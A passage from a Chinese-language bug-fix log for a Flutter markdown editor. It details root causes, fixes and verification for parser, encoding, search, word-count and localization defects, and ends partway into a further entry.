### BUG-010 甘特图：无 section 时整张图空白；多状态关键字被当成任务 id；中文任务名生成空 id

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | **P0**（第一条）/ P1（后两条） |
| 状态 | 已修复 |
| 现象一（P0） | `gantt` 里如果一个 `section` 都没写（mermaid 允许），**整张图什么都不画**。任务确实解析出来了，但没被放进任何分组，而画布是按分组画的 |
| 现象二 | `编码 :crit, active, 2024-02-20, 45d` —— 只读了第一个状态关键字，第二个 `active` 被当成**任务 id**。既丢了样式，`after active` 之类的引用也随之错位 |
| 现象三 | 任务名是中文时，自动生成的 id 是**空字符串** —— `_generateId` 用 `[^a-z0-9]` 把非 ASCII 全部替换掉再去掉首尾下划线。于是同一张图里所有中文任务共用同一个空 id，`after 需求调研` 永远找不到目标 |
| 根因归类 | 现象三是本项目第**四**次撞上同一族问题（BUG-049、BUG-082、BUG-083 都是「`\w` / `a-z` 只覆盖 ASCII」）。这次是 `[^a-z0-9]` |
| 修复方案 | 一、无 section 的任务落进一个默认（空名）分组；二、状态关键字**循环消费**，同一模型只存一个状态时按「里程碑 > 关键 > 已完成 > 进行中」取最能改变画法的那个；三、id 生成只折叠空白、保留原字符，并对 `existingTasks` **去重**（同名任务原本也会撞成同一个 id） |
| 涉及文件 | `lib/ui/editor/mermaid/parser/gantt_parser.dart`、`test/ui/editor/mermaid/mermaid_parser_test.dart` |
| 验证方式 | 8 种写法本地探查（基本、里程碑、axisFormat、excludes、无 section、until、中文任务名依赖、同名任务）；5 个仓库测试。中文依赖那条断言「第二个任务的开始时间晚于第一个的结束时间」—— 依赖没解析成功时它会退回到图表默认起始日 |
| 仍未做 | `until <id>`（把结束时间对齐到另一个任务的开始）暂未实现，当前按零长度处理 |

---

### BUG-011 流程图的中文样式类名被静默丢弃（并附全仓 ASCII 字符类普查结果）

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 现象 | `classDef 红色 fill:#f96` 与 `class A 红色` 两行都**不报错、也不生效** —— 样式表是空的，节点没有类名 |
| 根因分析 | 两处正则都用 `(\w+)` 取类名，Dart 的 `\w` 只含 ASCII |
| 修复方案 | 类名改成「非空白即可」（`(\S+)`）。类名只用于在本图内做查表，不需要限定字符集 |
| 普查（本条的重点） | 这已经是第**五**次撞上「字符类只覆盖 ASCII」（BUG-049、BUG-082、BUG-083、BUG-010、本条）。这次不再逐个撞，把全仓 18 处相关正则**一次过完并逐条判定**： |
| ✅ 判定为正确 | `markdown_parser` 的 HTML 标签名（401/431）与实体名（1363）—— 规范就是 ASCII；强调符的前后断言（1121/1122/1131）—— ASCII 限定在这里是**放行**方向，`中文__加粗__` 因此可以成立，正是想要的；`markdown_renderer` 与 `find_replace_bar` 的「全词匹配」边界判定 —— CJK 无词间分隔，判为边界即放行，同样是对的；`c4_parser` 的调用关键字、`git_graph` 的选项键名、`requirement_parser` 的四处关键字/字段名/关系名 —— 全是英文保留字 |
| ⚠️ 已知保守 | 裸邮箱地址（1146）用 `\w`，所以非 ASCII 本地部分与 IDN 域名不会自动成链。与 GFM 规范一致，且保守方向不会误伤，暂不改 |
| ❌ 判定为缺陷 | 只有本条的 `classDef` / `class` 两处 |
| 涉及文件 | `lib/ui/editor/mermaid/parser/flowchart_parser.dart`、`test/ui/editor/mermaid/mermaid_parser_test.dart` |
| 验证方式 | 4 种写法本地探查（英文类名、中文类名、一次给多个节点赋类、中文节点配英文类）；2 个仓库测试；流程图 13 种形状与 7 种箭头的既有探针全量回归 |

---

### BUG-012 时间线里同一时间点的多个事件被并成一个

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 现象 | `2004 : 脸书 : 谷歌`（mermaid 官方示例里就有这种写法）本该在 2004 这一列画**两个**事件框，本项目画成一个，框里的字是 `脸书 : 谷歌` |
| 根因分析 | 解析时只按**第一个**冒号切分，右半边整段当成一个事件 |
| 修复方案 | 右半边继续按冒号拆分，每段非空的就是一个事件。续行写法（`     : 事件`）走同一个函数 |
| 顺带确认 | 事件文本里如果本来就有冒号（`2004 : 发布: 1.0`）也会被拆开 —— 这与 mermaid 的行为一致，不做特殊处理 |
| 已知未支持 | 时间线的 `section` 分组名被忽略（mermaid 会给覆盖的几列加一条底色带）。当前模型里「一个时间点 = 一列」，加分组要动模型，本次不扩大范围；已在解析器类文档里写明 |
| 涉及文件 | `lib/ui/editor/mermaid/parser/timeline_parser.dart`、`test/ui/editor/mermaid/mermaid_parser_test.dart` |
| 验证方式 | 饼图 5 种、时间线 3 种、旅程图 3 种写法一并本地探查（饼图与旅程图未发现问题）；3 个仓库测试 |

---

### BUG-013 看板里带元数据的任务整条消失

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P1 |
| 状态 | 已修复 |
| 现象 | `任务一@{assigned: "张三", priority: "High"}` —— 这条任务**在看板上完全不出现**，那一列显示为空。没有报错，也没有降级显示原文 |
| 根因分析 | 任务正则里元数据块前面写的是 `\s+@\{`，**要求必须有空格**。mermaid 的写法是紧贴着的 `任务@{ … }`，于是整行匹配失败，既不是任务也不是别的，直接被丢掉 |
| 修复方案 | 空格改成可选（`\s*`）。两种写法现在都认 |
| 关联 | 与 BUG-083（看板列的中文 id）是同一个正则家族的相邻两处 —— 上次改了列，没顺手复核任务 |
| 同批探查 | 顺带把看板的 7 种写法与思维导图的 4 种写法一起过了一遍：看板的 wip 限制、带 id 的列、前置配置块，思维导图的 5 种形状、`::icon`、制表符缩进 —— 均正常 |
| 涉及文件 | `lib/ui/editor/mermaid/parser/kanban_parser.dart`、`test/ui/editor/mermaid/mermaid_parser_test.dart` |
| 验证方式 | 紧贴写法、带空格写法、无元数据三种情况各一个仓库测试 |

---

### BUG-014 预览里搜索重复串会显示出比文档更多的字

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P1 |
| 状态 | 已修复 |
| 现象 | 在预览里搜 `aa`，而正文是 `aaaa` —— 段落**渲染成六个 a**。查找栏显示 2 处匹配，预览高亮出 3 处，「下一个」也随之错位 |
| 根因分析 | 全应用有**两份**搜索实现：查找栏那份每次前进一个完整匹配长度（非重叠），预览高亮那份只前进 **1 个字符**（重叠）。预览拿到重叠区间后按顺序拼接文本片段，重叠部分被**重复写出**，于是屏幕上的字比文档里多 |
| 为什么两边会不一致 | 查找栏那份代码上方本来就写着注释解释这个坑（重叠会让 replace-all 覆盖时毁坏文本），修的时候没有人知道预览还有一份 |
| 修复方案 | 抽出 `lib/services/text_search_service.dart`，两处都调它。查找栏保留一个同名薄封装（既有测试按这个名字调用），预览直接用服务 |
| 顺带修掉 | 一、零宽正则（如 `x*`）在每个位置都命中，会高亮出一串空区间并把匹配计数灌水 —— 现在跳过零宽匹配；二、预览拼接循环加了一道兜底：区间起点早于上一个终点就跳过，避免以后再有人写出重叠区间时又把文本写重 |
| 全词匹配的推进方式 | 服务里仍**逐字符**推进（而不是跳过整个匹配），因为开了全词匹配时，一个被否决的命中后面可能紧跟着一个合法命中；重叠的排除放在「接受时」判断 |
| 涉及文件 | `lib/services/text_search_service.dart`（新增）、`lib/ui/widgets/find_replace_bar.dart`、`lib/ui/editor/markdown_renderer.dart`、`test/services/text_search_service_test.dart`（新增） |
| 验证方式 | 12 种情况本地探查；9 个仓库测试。核心断言是**「把匹配区间拼回原文，字符数必须守恒」** —— 这正是原来被破坏的不变量 |

---

### BUG-015 字数统计把 `don't` 算成两个词

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 现象 | 状态栏的词数偏高：`don't can't` 报 4 个词，`well-known state-of-the-art` 报 6 个 |
| 根因分析 | 词字符判定把 ASCII 的 `!`–`/` 整段排除，其中就有撇号（0x27）和连字符（0x2D）；弯撇号（0x2019）落在通用标点区，同样被排除。于是它们都成了词边界 |
| 修复方案 | 三个字符改判为「**词内连接符**」：只有在**已经处在一个词里**时才不断词。不需要向前看一个字符 —— 保持 `inWord` 为真，恰好就阻止了连接符后面那个字母另起一个新词；而连接符后面没有字母时，词已经计过了，不影响任何计数 |
| 为什么不误伤 | 项目符号 `- item`、引号 `'quoted'`、破折号 `a - b` 到达这个判定时都**没有开着的词**，走原来的分支，行为不变 |
| 未处理 | `3.14` 仍算两个词（小数点没有当成连接符）。把 `.` 也算进去会让「句号后漏打空格」的两句话粘成一个词，代价大于收益 |
| 涉及文件 | `lib/services/word_count_service.dart`、`test/services/word_count_service_test.dart` |
| 验证方式 | 22 种文本本地探查（含中日韩俄、重音、emoji、弯撇号、项目符号、破折号、中文夹连字符、千词长文）；2 组新仓库测试 |
| 过程记录 | CI 挡下一次：既有测试里有一行 `expect(countWords('a-b c').words, 3)` 正是在断言**被改掉的那个行为**。它写在「按空格分词」那组里，看上去是当时照着实现写下的，而不是深思熟虑的约定 —— 已改成 2 并注明原因。教训：改判定规则前应当先搜一遍测试里有没有钉住旧行为的断言 |

---

### BUG-016 打开非 UTF-8 文件时标签页静默消失；带 BOM 的文件保存后丢 BOM

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | **P0** |
| 状态 | 已修复 |
| 现象一（P0） | 打开 GBK、Latin-1 或 UTF-16 编码的 `.md` / `.txt`：标签页闪一下就**消失了**，没有任何提示。对中文用户来说，GBK 的旧文档并不罕见 |
| 现象二 | 带 UTF-8 BOM 的文件（Windows 记事本、很多国产工具的默认输出）打开再保存，**BOM 没了** —— 一个字没改的文件在 git 里也会显示整行变更 |
| 根因分析一 | 读取用的是 `File.readAsString()`，它固定按 UTF-8 解码，**遇到非法字节直接抛异常**。三条打开路径的 catch 都是「移除这个标签页」，于是表现为静默消失 |
| 根因分析二 | Dart 的 `utf8.decode` 会**吞掉 UTF-8 BOM**（实测确认），字符串里根本没有它，保存时自然写不回去。有意思的是 `markdown_parser.replaceBlock` 里有一段专门保留 BOM 的逻辑 —— 对走 FileService 读进来的文档，那段逻辑其实一直是死代码 |
| 修复方案 | 新增 `FileEncoding` 模型（与既有的 `LineEnding` 同构）：按**字节**读入，依次判定 UTF-16 BOM → UTF-8 BOM → UTF-8 → 回退 Latin-1；标签页记住编码，保存时按同一编码写回 |
| 为什么用 Latin-1 兜底 | Latin-1 是唯一「任何字节都能解码、且再编码回去完全一致」的编码。GBK 文档会显示成乱码，但**没被编辑的部分逐字节原样保留**，不会像转成 UTF-8 那样把文件毁掉。相比之下「打不开」和「悄悄转码」都更糟 |
| 边界处理 | 在按 Latin-1 打开的文件里打了中文（Latin-1 写不下）时回退到 UTF-8 写出，而不是抛异常把这次保存丢掉 |
| 一并收口的读取路径 | 全仓一共四处读文档：`readFileWithLineEnding`、`readFile`、大文件的 isolate 读取（`home_screen`）、侧边栏的文件夹搜索。**四处全部改走同一个解码**。isolate 那条改成「隔离里只读字节、主 isolate 解码」，记录也顺带更新；搜索那条原本 catch 掉异常，效果是**非 UTF-8 文件搜不到**，现在能搜了 |
| 保存路径 | 五处 `saveDocument` 调用全部带上 `encoding`（与 `lineEnding` 同样处理） |
| 涉及文件 | `lib/models/file_encoding.dart`（新增）、`lib/services/file_service.dart`、`lib/models/tab_info.dart`、`lib/providers/tab_provider.dart`、`lib/ui/screens/home_screen.dart`、`lib/ui/widgets/side_bar.dart`、`lib/ui/widgets/app_menu_bar.dart`、`lib/ui/widgets/editor_tab_bar.dart`、`lib/ui/editor/markdown_renderer.dart`、`test/models/file_encoding_test.dart`（新增） |
| 验证方式 | 先用真实的 GBK / Latin-1 / UTF-16 / UTF-8+BOM 文件确认了「现在会抛异常」这一事实，再验证修复后**五种编码全部逐字节原样回写**；7 个仓库测试 |
| 状态栏（顺带发现的第三个问题） | 本想在换行符旁边**新增**一个编码指示器，加完 CI 报状态栏 `Row` 溢出 69 px。查下去才发现状态栏**早就有一个编码位**，而它读的是 `l10n.statusEncoding` —— 每种语言的 arb 里都写着字面量 `"UTF-8"`。也就是说它一直在声称所有文件都是 UTF-8，与之前修掉的「LF 写死」是同一种谎。于是改成**替换**而不是并排新增：显示真实编码（`UTF-8` / `UTF-8 BOM` / `UTF-16 LE` / `Latin-1`），元素个数不变，溢出随之消失。编码名本身不需要翻译 |
| 仍未做 | 没有真正的 GBK 解码（Dart 无内置编解码器，引第三方包对 CI 构建有风险），所以 GBK 文档显示为乱码而非正确中文 |
| 过程记录 | CI 挡下一次：`dart:typed_data` 是多余导入，`package:flutter/foundation.dart` 已经把 `Uint8List` 带进来了（本项目 analyze 把 info 也当失败）。与本会话早先 `visibleForTesting` 那次同类 —— **flutter 的 foundation 已经再导出了不少 dart 核心类型** |
| 过程记录（第二次） | CI 又挡下一次：新函数把 `path.separator` 写成了可选参数的默认值，而默认值必须是**编译期常量**。改成可空参数、在函数体内取默认。教训：新写的默认参数值只要引用了库里的 getter，就该先确认它是不是 const |

---

### BUG-017 用空行分隔写的列表，渲染得和不分隔时一模一样

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 现象 | 作者特意把列表项之间空一行（想要更松的排版），预览里的行距与紧凑写法**完全相同**；导出 HTML 后在浏览器里也一样紧 |
| 规范背景 | CommonMark 把「任意两项之间有空行」的列表称为**松散列表**，每一项按段落渲染 —— 浏览器由此在项与项之间留出空白。GitHub、上游 MarkText 都是这个行为，上游的段落菜单里还有 `looseListItem` 这一项 |
| 根因分析 | `_collectListItems` 在遇到空行时会判断「后面还是不是列表项」以决定列表是否继续 —— **这里正好就是判定松散的位置**，但结果没被记下来，`ListNode` 也没有相应字段 |
| 修复方案 | `_collectListItems` 多返回一个 `loose`，`ListNode` 增加 `isLoose`；预览按松散/紧凑给出不同的项间距；HTML 导出在松散时把每项内容包进 `<p>` —— 这正是浏览器据以留白的东西 |
| 边界 | **续行不算空行**：`- first` 换行接 `  continued` 仍是紧凑；一处空行即足以让整个列表变松散（与规范一致）；有序列表与任务列表同样适用 |
| 尚未做 | 上游段落菜单里的 `looseListItem` 是一个**切换命令**（把当前列表在松散/紧凑之间转换），需要新增 12 语种菜单文案，本次只做了「按写法正确渲染」这一半 |
| 涉及文件 | `lib/services/markdown_parser.dart`、`lib/services/export_service.dart`、`lib/ui/editor/markdown_renderer.dart`、`test/services/markdown_parser_test.dart`、`test/fixtures_showcase_test.dart` |
| 验证方式 | 61 条语料基线对拍**零差异**（`isLoose` 是新增信息，不改变既有输出）；7 种写法本地探查；5 个解析测试 + 1 个导出测试；十个历史断言脚本全部通过 |

---

### BUG-018 主题为引用和注释定义了颜色，源码编辑器却从来不用

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 怎么发现的 | 沿用「设置项是否生效」的思路，把 `AppThemeTokens` 的 15 个颜色 token 逐个在主题代码之外 grep。12 个在用，**3 个从来没被读过**：`syntaxQuote`、`syntaxComment`、`colorTextDisabled` |
| 现象 | 8 套主题各自为「引用」和「注释」配了颜色，但源码编辑器的高亮器**根本没有这两个类别** —— 引用行和 HTML 注释都按正文色画。换主题时这两处永远看不出差别 |
| 修复方案 | 高亮器新增两类：以 `>` 开头的行整行按引用色画；单行 `<!-- … -->` 按注释色画。源码编辑器把两个 token 传下去 |
| 注释模式的位置很关键 | `<!--.*?-->` 必须排在强调类模式**之前**。扫描器取「位置最靠前的匹配」，若强调先匹配上，`<!-- a *b* c -->` 会被 `*b*` 从中间切开、只剩一半是注释色 |
| 相等性 | `HighlightColors` 的 `==` / `hashCode` 必须带上这两个新字段 —— 缓存的 span 正是用它们画的，漏掉就会在换主题后留下旧颜色 |
| 不是缺陷的一处 | `source_editor` 的 `initState` 里写着 `Colors.orange/blue/green/cyan/white`，看着像忽略了主题，但 `build` 里立刻用 token 覆盖，首帧之前就已正确 —— 只是可读性差，未改 |
| 未处理 | `colorTextDisabled` 仍无人使用（纯 UI 色，没有明确归属）；跨行的 HTML 注释不着色 —— 高亮器是**逐行**缓存的，跨行状态会破坏「只重扫改动行」这个前提 |
| 涉及文件 | `lib/ui/editor/syntax_highlighter.dart`、`lib/ui/editor/highlighting_controller.dart`、`lib/ui/editor/source_editor.dart`、`test/ui/editor/syntax_highlighter_test.dart` |
| 验证方式 | 11 种行本地探查（引用/缩进引用/嵌套引用、含星号的注释、标题、粗体、代码、围栏、`a > b`）。每一条都断言**着色后各段文本长度之和等于原文长度** —— `buildTextSpan` 用它定位光标，长度对不上光标就会错位 |

---

### BUG-019 文件对话框标题在任何语言下都是英文

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 怎么发现的 | 继续用「逐项检查」的思路，这次扫界面里**写死的字符串**：全仓 12 处命中里，10 处是含 `l10n.` 插值的误报，真正写死的是 5 个**文件对话框标题** |
| 现象 | 中文（以及其余 10 种语言）界面下，「另存为」「导出 HTML/PDF/Word」弹出的系统文件对话框，标题栏仍显示 `Save As` / `Export HTML` 等英文 |
| 根因分析 | 对话框标题由操作系统绘制，只能给字符串而不是 widget；这几个调用点又都是 `static` 方法，手上没有 `BuildContext`，于是当初直接写了英文字面量 |
| 修复方案 | 通过 `navigatorKey.currentContext` 取本地化（`_renameFile` 早就是这么做的），拿不到 context 时回退英文。**不新增任何文案** —— 「另存为」「导出」「HTML/PDF/Word」在菜单里都已有对应的键，导出标题由「导出」+ 格式两段拼成 |
| 涉及文件 | `lib/ui/widgets/app_menu_bar.dart`、`lib/ui/widgets/editor_tab_bar.dart` |
| 验证方式 | 全仓复扫，确认已无写死的界面字符串（余下命中均为含 `l10n.` 插值的误报） |

---

### BUG-020 十种语言缺 12 条文案，界面里直接显示英文

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 怎么发现的 | 沿用「逐项核对」的方法，这次比对 12 份 `.arb` 的**键集合**：英文与中文各 263 个键，**其余 10 种语言各只有 251 个** —— 同样缺那 12 条 |
| 现象 | 缺的键在生成代码里被填成了**英文原文**（`flutter gen-l10n` 的行为），所以德语、日语、韩语、俄语、阿拉伯语等界面下这 12 处直接显示英文，不报错、不留痕 |
| 缺的正是哪一块 | 8 条 `fileOpenBehavior*` —— 恰好是**「打开文件时弹出打开方式选择」那个偏好**（用户点名抱怨过的第三件事，v1.3.0 修好了行为，但文案只翻了中英）；另外 2 条是预览的「复制为 HTML」提示，2 条是更新提示 |
| 修复方案 | 补齐 10 种语言 × 12 条译文，**`.arb` 与已提交的生成代码同时更新**（生成代码是入库的，只改 arb 不会生效） |
| pt_BR 的特殊处 | 巴西葡语没有独立的生成文件，它是 `app_localizations_pt.dart` 里 `AppLocalizationsPt` 的子类，缺的键一条都没覆写（继承欧洲葡语）。所以那 12 条是**插入**而不是替换 |
| 过程记录 | 第一版脚本用 `json.dump` 重写整份 arb，结果把 `@key` 的元数据块压成了单行 —— 内容没丢，但 19 个文件、300 多行的 diff 会把真正的 12 行改动淹没。已改成**保留原格式的定点插入**，改完每份 arb 只有 +13/−1。这与本会话早先「不要对既有文件跑 dart format」是同一条教训 |
| 涉及文件 | 10 份 `app_*.arb`、9 份 `app_localizations_*.dart`（pt_BR 并在 pt 文件内） |
| 验证方式 | 复核 12 份 arb 键集合**完全一致**；复核 9 种语言的 12 个 getter **均已不是英文原文**、pt_BR 子类覆写 12/12；12 份生成代码做括号与跨行字符串配平检查；每份 arb 改写后重新 `json.loads` 确认仍是合法 JSON |
| 补翻之后的复核（如实记录） | 补完又反查了一遍这 12 个键在代码里的引用：**6 个当前没有任何引用** —— 4 个是被移除的「启动时询问打开方式」对话框留下的（`…Title` / `…Message` / 两个 `…Desc`），2 个是 v1.2.0 移除的「复制为 HTML」工具栏按钮留下的。也就是说这次有一半译文暂时用不上。留着无害，且对话框若恢复即可直接用 |
| 顺带的全量统计 | 把 263 个键全查了一遍：**18 个当前未被引用**（7%）。除上述 6 个外，还有 5 个是**已不存在的旧主题名**（Cadmium Light / Graphite Light / Material Dark / One Dark / Ulysses Light —— 当前 8 套主题各有自己的键，设置页也确实在用，所以不是缺口）、`statusLineFeed`（那个写死的 "LF"，已被真实换行符取代）、`comingSoon` / `editFindInFiles` 等从未接线的。清理它们要动 24 个文件而对用户没有任何可见收益，**故意不做**，在此记录以免后人重复排查 |

---

### BUG-021 相邻的有序列表与无序列表被并成一个

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P1 |
| 状态 | 已修复 |
| 怎么发现的 | 给今天改过的每一处各写一条最小样例、拼成一份文档做**端到端回归**时看出来的：那份样例里三个相邻的列表（`3./4.` 有序、两条松散无序、`1. 步骤`）被解析成了**一个**列表节点 |
| 现象 | `1. a` `2. b` 空行 `- c` `- d` 只产生一个列表；换个方向（无序在前）也一样；中间不空行同样合并 |
| 用户可见后果 | 预览里靠每项自带的 `ordered` 标记还能画对，但 **HTML 导出会把这些项全塞进同一个 `<ol>`**，浏览器于是把本该是圆点的项画成编号；松散/紧凑也被迫共用一个判定 |
| 根因分析 | `_collectListItems` 遇到空行时只问「后面还是不是列表项」，是就继续 —— 从没问过**标记类型变没变**。CommonMark 明确规定：换了标记（数字↔圆点）就是新列表 |
| 修复方案 | 记住列表**首项的缩进与标记类型**；遇到同一缩进、但标记类型不同的项就收尾。「同一缩进」这个限定是必须的 —— 编号步骤下面挂的圆点子项缩进更深，属于同一个列表的更深一层，不能被切开 |
| 这不是今天引入的 | 这段收集逻辑早于本次改动；今天只是给它加了松散判定，端到端回归才把它照出来。**逐条改动的基线对拍都是零差异，但零差异只能证明「这一处没改坏」，证明不了「原本就是对的」** —— 端到端样例补上了这个缺口 |
| 涉及文件 | `lib/services/markdown_parser.dart`、`test/services/markdown_parser_test.dart` |
| 验证方式 | 61 条语料基线对拍**零差异**；6 种相邻组合逐一探查（含「嵌套子项仍属同一列表」这条反例）；5 个仓库测试；十一个历史断言脚本全部通过；五份真实文档（showcase、本项目 README/CHANGELOG/bugfix、上游 README，共 303 个块）**块级往返全部字节一致** |
| 第一版修复有缺陷（当天即修） | 第一版把「标记类型变了就收尾」的判断放在**跳过空行之后**，于是收尾时 `i` 已经越过那个空行，列表的行区间把**分隔用的空行也吃了进去** —— 块级编辑「取出再原样写回」会把空行抹掉，两个列表随之粘连。仓库里既有的 `every block round-trips through sourceOfBlock` 与我本地的端到端探针**同时**指向了它。<br>改法是把判断挪进空行分支、在推进 `i` 之前做，于是 `i` 仍停在空行上、区间在它之前结束。附带修正了另一处：`loose` 原本在判断之前就被置位，导致 `3./4.` 这个紧凑列表被误判为松散 |

---

### BUG-022 内容不含空格的脚注定义被当成链接定义丢弃

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P1 |
| 状态 | 已修复 |
| 怎么发现的 | 把 BUG-021 用的端到端手法扩到另外 20 组构造组合，其中「脚注定义紧邻」这条（`text[^1]` + 空行 + `[^1]: note`）解析出 `paragraph, paragraph` —— 脚注定义那一块凭空没了 |
| 现象 | `[^1]: 中文脚注`、`[^1]: https://example.com`、`[^1]: note` 这类**内容里没有空格**的脚注定义，解析后**不产生任何节点**，预览与三条导出通路里都看不到 |
| 影响范围（实测） | 只吞「单个无空格 token（可再跟一个引号标题）」的定义。`[^1]: The footnote definition itself.` 这种多词英文**不受影响** —— 这正是仓库里 `showcase.md` 的写法，所以既有的端到端测试一直没照出来。反过来说，**中文脚注几乎全中**（中文句子内部通常不打空格） |
| 根因分析 | 块解析里「链接引用定义是元数据、直接丢弃」这一分支排在脚注分支**之前**，而它的正则 `^\s{0,3}\[([^\]]+)\]:\s*(\S+)…$` 的标签部分 `[^\]]+` 会连 `^1` 一起吃下。命中之后 `continue`，脚注分支根本没机会跑。丢弃是静默的，所以内容是「消失」而不是「显示错误」。顺带地，文档开头那一遍链接定义预扫描也把 `^1` 当标签塞进了 `_linkDefinitions` |
| 修复方案 | 把标签首字符排除 `^`：`\[([^\^\]][^\]]*)\]`。首字符之后仍允许 `^`，所以 `[a^b]: url` 这种合法标签不受影响 |
| 这不是今天引入的 | 用 `git show <rev>:…` 取历史版本、跑同一份探针做二分：v1.2.3 发布点（`2f404ff`）是好的，今天第一笔改动之前（`2b209f7^`）已经坏了 —— 是 **v1.3.0 开发期间**引入的，尚未发布，用户从未遇到 |
| 涉及文件 | `lib/services/markdown_parser.dart`、`test/services/markdown_parser_test.dart` |
| 验证方式 | 61 条语料基线对拍**零差异**；6 种内容形态在修复前后逐一对照（确认哪些原本就正常、哪些被吞）；引用式链接的 5 种写法回归（含带标题、折叠式、标签内含 `^`）；9 种脚注文档形态的**块级往返全部字节一致**；十一个历史断言脚本全部通过；新增 3 条仓库测试 |
| 一条方法上的教训 | 端到端 fixture 只覆盖了一种写法（多词英文），就给了「脚注没问题」的假象。**同一构造要按内容形态分类取样**，尤其是「有无空格」「中英文」这种会改变正则命中结果的维度 |

---

### BUG-023 以分隔线开头的文档被当成前置元数据，中间内容整段消失

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P1 |
| 状态 | 已修复 |
| 怎么发现的 | BUG-022 之后做的一次**分支互抢排查**：块解析有十几个分支按固定顺序试，越靠前的分支越容易抢走本该归后面的行。给每一对「可能互相命中」的构造写最小样例逐一对照期望，20 条里出了这一条 |
| 现象 | `---` 空行 `正文` 空行 `---` 空行 `结尾` 解析成 `frontMatter, paragraph` —— 两条分隔线之间的正文被塞进了元数据块，预览里只剩一个元数据框加一段文字 |
| 用户可见后果 | 文档正文在预览与三条导出通路里全部消失（只在源码模式看得到）。触发条件是「文档以 `---` 开头」+「文中还有另一条 `---`」 |
| 根因分析 | 前置元数据的向前扫描没有任何边界：只要首行是 `---`，就一路找到**文件里下一个** `---` 为止，中间所有内容都归元数据。判定里也没有校验这些行像不像 YAML |
| 修复方案 | 用一条不会误伤的判据：**开分隔符的下一行必须非空**。YAML / TOML / JSON 都不允许以空行开头，所以 `---` 后紧跟空行只可能是分隔线。另外 `---` 紧跟 `---` 判为两条分隔线而非空元数据块（与上游一致） |
| 为什么不照抄上游 | 上游 muya 的 `FRONT_REG` 要求闭合分隔符后面必须是**空行或文件结尾**。实跑上游正则确认：`---\ntitle: x\n---\n# 标题`（闭合后不空行）在上游**不算**前置元数据 —— 这是上游的短板，照抄会把我们本来正确的行为改坏。上游对本 bug 的输入（`---` + 空行 + 正文 + `---` + 空行）判定与我们**修复前一样**，所以这不是「偏离上游」，是两边都松。取「下一行非空」这条更准的判据，既修了本 bug，也保住了上游修不了的那种写法 |
| 保留的行为 | 元数据**内部**允许空行（`a: 1` 空行 `b: 2`），上游也允许，不动 |
| 涉及文件 | `lib/services/markdown_parser.dart`、`test/services/markdown_parser_test.dart` |
| 验证方式 | 61 条语料基线对拍**零差异**；10 种 `---` 形态逐一对照期望（含元数据含空行、闭合后无空行、文末即闭合、文中分隔线）；仓库原有的 `front matter spans from the opening delimiter` 断言原样复算通过；9 份文档块级往返字节一致；showcase 70 块三项不变式全过；十一个历史断言脚本通过；新增 4 条测试 |
| 顺带确认不是缺陷的一条 | 排查中「列表项内的围栏代码块」解析成 `unorderedList, codeBlock` 两个同级节点，一度以为是漏吸收。查模型后确认 `ListItem` 是**扁平**结构（只有 `content`/`depth`，没有 `children`），列表内代码块本就设计成同级节点，BUG-007 修的正是它的缩进。**不是缺陷，不改** |

---

### BUG-024 看板用四空格或 Tab 缩进时整张图不渲染

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P1 |
| 状态 | 已修复 |
| 怎么发现的 | 给 19 种图表各写一份完整样例，做**渐进式截断模糊测试**（逐行截断、逐字符截断、逐行删除，共 2065 个用例）验证「边打字边预览」不会抛异常。异常是零，但顺带发现看板那份样例 `parseWithData` 直接返回了 `null` |
| 现象 | 列名缩进 4 空格、任务缩进 6 空格的看板，解析返回 `null`，预览里整张图不渲染。Tab 缩进、以及列名顶格写的看板，则会把每个任务都升格成一个空列 |
| 根因分析 | 列与任务的区分用的是**写死的绝对阈值**：`!line.startsWith('    ')` 是列、`line.startsWith('    ')` 是任务。于是<br>① 列名本身缩进 ≥4 空格 → 全被判成任务，而此时还没有当前列，任务被丢弃，最后 `columns.isEmpty` → 返回 `null`；<br>② Tab 缩进的任务不以四个空格开头 → 判成列；<br>③ 列名顶格、任务缩进 2 空格 → 任务也判成列。<br>真实 mermaid 和本项目自己的 mindmap 解析器一样，看的是**相对缩进深度** |
| 修复方案 | 记住第一行内容的缩进作为「列的缩进」，比它更深的是任务，与它齐平或更浅的是新列。四种缩进写法（0/2/4 空格、Tab）随之全部成立 |
| 顺带消除的重复 | mindmap 早就有一份正确的、按 Tab 位对齐的缩进计算，看板这边是另写的一份。两份规则不一致正是 Tab 那条失败的直接原因。已抽成 `parser/indentation.dart` 里的 `indentColumns`，两处共用 —— 这是本会话第 N 次遇到「同一行为在多处各写一遍然后漂移」 |
| 涉及文件 | `lib/ui/editor/mermaid/parser/kanban_parser.dart`、`lib/ui/editor/mermaid/parser/mindmap_parser.dart`、`lib/ui/editor/mermaid/parser/indentation.dart`（新增）、`test/ui/editor/mermaid/mermaid_parser_test.dart` |
| 验证方式 | 16 种看板写法对照期望（含仓库原有 4 条测试的输入，逐一复算通过）；**用 `git show HEAD:` 取修复前的版本跑同一份用例，确认恰好是那 4 种写法在修复前失败**；mindmap 四种缩进回归；2065 个截断用例重跑，仍然零异常；新增 5 条测试 |
| 一并确认没问题的 | 19 种图表在逐字符截断下**无一抛异常**（2065 用例）。「边打字边预览」这条路径是稳的 |

---

### BUG-025 饼图写成 `pie title 标题` 时标题被丢弃

| 字段 | 内容 |
